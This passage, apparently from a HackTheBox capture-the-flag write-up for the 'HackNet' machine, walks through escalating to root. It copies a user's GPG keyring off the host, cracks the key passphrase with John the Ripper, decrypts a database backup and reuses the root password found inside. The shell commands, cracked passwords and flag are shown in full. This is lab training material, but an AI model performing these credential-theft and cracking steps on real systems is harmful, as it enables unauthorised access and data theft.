drwxr-xr-x 2 sandy sandy    4096 Aug  8  2024 media
drwxr-xr-x 6 sandy sandy    4096 Sep  8 09:22 SocialNetwork
drwxr-xr-x 3 sandy sandy    4096 May 31  2024 static
```

```shell
sandy@hacknet:/var/www/HackNet/backups$ ls
ls
backup01.sql.gpg
backup02.sql.gpg
backup03.sql.gpg
```

The `file extension` of `.gpg` indicated the use and the presence of a `GNU Privacy Guard (GPG)` key which we verified real quick.

```shell
sandy@hacknet:/var/www/HackNet/backups$ gpg -K
gpg -K
/home/sandy/.gnupg/pubring.kbx
------------------------------
sec   rsa1024 2024-12-29 [SC]
      21395E17872E64F474BF80F1D72E5C1FA19C12F7
uid           [ultimate] Sandy (My key for backups) <sandy@hacknet.htb>
ssb   rsa1024 2024-12-29 [E]
```

```shell
sandy@hacknet:~$ ls -la
ls -la
total 36
drwx------ 6 sandy sandy 4096 Sep 11 11:18 .
drwxr-xr-x 4 root  root  4096 Jul  3  2024 ..
lrwxrwxrwx 1 root  root     9 Sep  4 19:01 .bash_history -> /dev/null
-rw-r--r-- 1 sandy sandy  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 sandy sandy 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 sandy sandy 4096 Jul  3  2024 .cache
drwx------ 3 sandy sandy 4096 Dec 21  2024 .config
drwx------ 4 sandy sandy 4096 Sep 14 10:39 .gnupg
drwxr-xr-x 5 sandy sandy 4096 Jul  3  2024 .local
lrwxrwxrwx 1 root  root     9 Aug  8  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 sandy sandy  808 Jul 11  2024 .profile
lrwxrwxrwx 1 root  root     9 Jul  3  2024 .python_history -> /dev/null
```

```shell
sandy@hacknet:~/.gnupg$ ls -la
ls -la
total 32
drwx------ 4 sandy sandy 4096 Sep 14 10:39 .
drwx------ 6 sandy sandy 4096 Sep 11 11:18 ..
drwx------ 2 sandy sandy 4096 Sep  5 11:33 openpgp-revocs.d
drwx------ 2 sandy sandy 4096 Sep  5 11:33 private-keys-v1.d
-rw-r--r-- 1 sandy sandy  948 Sep  5 11:33 pubring.kbx
-rw------- 1 sandy sandy   32 Sep  5 11:33 pubring.kbx~
-rw------- 1 sandy sandy  600 Sep  5 11:33 random_seed
-rw------- 1 sandy sandy 1280 Sep  5 11:33 trustdb.gpg
```

```shell
sandy@hacknet:~/.gnupg$ find .
find .
.
./private-keys-v1.d
./private-keys-v1.d/armored_key.asc
./private-keys-v1.d/EF995B85C8B33B9FC53695B9A3B597B325562F4F.key
./private-keys-v1.d/0646B1CF582AC499934D8503DCF066A6DCE4DFA9.key
./pubring.kbx~
./trustdb.gpg
./openpgp-revocs.d
./openpgp-revocs.d/21395E17872E64F474BF80F1D72E5C1FA19C12F7.rev
./random_seed
./pubring.kbx
```

With this information the attack path was clear. We needed the `GPG Private Key` in order to `decrypt` the `database dumps`.

## Privilege Escalation to root

### Attacking GNU Privacy Guard (GPG) Encryption Key

For this we created a `tarball` of the `.gnupg` folder inside the `home directory` of `sandy` and downloaded it to our local machine.

```shell
sandy@hacknet:~$ tar -zcvf gnupg.tar.gz .gnupg/
tar -zcvf gnupg.tar.gz .gnupg/
.gnupg/
.gnupg/private-keys-v1.d/
.gnupg/private-keys-v1.d/armored_key.asc
.gnupg/private-keys-v1.d/EF995B85C8B33B9FC53695B9A3B597B325562F4F.key
.gnupg/private-keys-v1.d/0646B1CF582AC499934D8503DCF066A6DCE4DFA9.key
.gnupg/pubring.kbx~
.gnupg/trustdb.gpg
.gnupg/openpgp-revocs.d/
.gnupg/openpgp-revocs.d/21395E17872E64F474BF80F1D72E5C1FA19C12F7.rev
.gnupg/random_seed
.gnupg/pubring.kbx
```

```shell
sandy@hacknet:~$ mv gnupg.tar.gz /tmp/
mv gnupg.tar.gz /tmp/
```

```shell
sandy@hacknet:~$ chmod 777 /tmp/gnupg.tar.gz
chmod 777 /tmp/gnupg.tar.gz
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/HackNet/files/extracted]
└─$ scp -P 22 mikey@hacknet.htb:/tmp/gnupg.tar.gz .
mikey@hacknet.htb's password: 
gnupg.tar.gz
```

Then we `extracted` the `tarball` to work on the `private key`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/HackNet/files/extracted]
└─$ tar -xvf gnupg.tar.gz 
.gnupg/
.gnupg/private-keys-v1.d/
.gnupg/private-keys-v1.d/armored_key.asc
.gnupg/private-keys-v1.d/EF995B85C8B33B9FC53695B9A3B597B325562F4F.key
.gnupg/private-keys-v1.d/0646B1CF582AC499934D8503DCF066A6DCE4DFA9.key
.gnupg/pubring.kbx~
.gnupg/trustdb.gpg
.gnupg/openpgp-revocs.d/
.gnupg/openpgp-revocs.d/21395E17872E64F474BF80F1D72E5C1FA19C12F7.rev
.gnupg/random_seed
.gnupg/pubring.kbx
```

We could imported the key via command line but for reasons of convenience we created a `backup` of our own `.gnupg` folder and copied the folder of `sandy` to our `home directory` on our local machine.

```shell
┌──(kali㉿kali)-[/media/…/Machines/HackNet/files/extracted]
└─$ mv ~/.gnupg ~/.gnupg.bak
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/HackNet/files/extracted]
└─$ cp -R .gnupg ~/
```

#### Cracking the Hash using John the Ripper

Next we used `gpg2john` in order to `crack` the `hash` using `John the Ripper` to get the `password` of the `private key`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/HackNet/files/extracted]
└─$ gpg2john .gnupg/private-keys-v1.d/armored_key.asc > key.hash

File .gnupg/private-keys-v1.d/armored_key.asc
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/HackNet/files/extracted]
└─$ sudo john key.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetheart       (Sandy)     
1g 0:00:00:09 DONE (2025-09-14 12:50) 0.1047g/s 44.39p/s 44.39c/s 44.39C/s 246810..ladybug
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Password   |
| ---------- |
| sweetheart |

### Decrypting the Database Backup

As last steps we downloaded the `encrypted database dumps` and `decrypted` them using the `password` and the `GPG Private Key`.

```shell
sandy@hacknet:/var/www/HackNet/backups$ cp backup02.sql.gpg /tmp/
cp backup02.sql.gpg /tmp/
```

```shell
sandy@hacknet:/var/www/HackNet/backups$ chmod 777 /tmp/backup02.sql.gpg
chmod 777 /tmp/backup02.sql.gpg
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/HackNet/files]
└─$ scp -P 22 mikey@hacknet.htb:/tmp/backup02.sql.gpg .
mikey@hacknet.htb's password: 
backup02.sql.gpg
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/HackNet/files]
└─$ gpg --decrypt backup02.sql.gpg > backup02.sql
gpg: WARNING: unsafe permissions on homedir '/home/kali/.gnupg'
gpg: encrypted with rsa1024 key, ID FC53AFB0D6355F16, created 2024-12-29
      "Sandy (My key for backups) <sandy@hacknet.htb>"
```

Inside the `dumps` we found the `password` for `root` which allowed us to directly `login` as `root` and to grab the `root.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/HackNet/files]
└─$ strings backup02.sql
<--- CUT FOR BREVITY --->
(50,'2024-12-29 20:30:41.806921','Alright. But be careful, okay? Here
s the password: h4ck3rs4re3veRywh3re99. Let me know when you
re done.',1,18,22),
<--- CUT FOR BREVITY --->
```

| Password               |
| ---------------------- |
| h4ck3rs4re3veRywh3re99 |

### Shell as root

```shell
┌──(kali㉿kali)-[~]
└─$ ssh root@hacknet.htb
root@hacknet.htb's password: 
Linux hacknet 6.1.0-38-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.147-1 (2025-08-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep 14 06:56:46 2025 from 10.10.16.33
root@hacknet:~# 
```

## root.txt

```shell
root@hacknet:~# cat root.txt 
077b13ccd3ce7a9e96e961d4d18034e2
```